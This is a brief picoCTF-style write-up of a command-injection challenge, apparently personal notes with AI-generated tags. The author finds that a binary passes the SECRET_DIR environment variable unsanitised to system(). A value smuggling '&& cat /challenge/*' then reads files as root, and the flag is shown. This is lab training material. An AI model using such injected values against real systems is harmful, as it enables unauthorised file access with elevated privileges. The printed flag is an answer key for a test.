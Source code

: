 ```yaml
---
ai_date: 2025-04-27 05:29:54
ai_summary: Command injection vulnerability via `system()` function, exploiting with command substitution to read flag
ai_tags:
  - cmd-inj
  - pwn
created: 2024-08-08T02:41
updated: 2025-07-14T09:46
---
```


How is it reading the folders I wonder?

```bash
ctf-player@pico-chall$ SECRET_DIR='"' ./bin
Listing the content of " as root:
sh: 1: Syntax error: Unterminated quoted string
Error: system() call returned non-zero value: 512
```

Ah, it is using `system()`, and this is a command injection challenge.

Why is it in `pwn` lol.

```bash
ctf-player@pico-chall$ SECRET_DIR='/challenge && cat /challenge/*' ./bin
```

```flag
picoCTF{Power_t0_man!pul4t3_3nv_cdeb2a4d}
```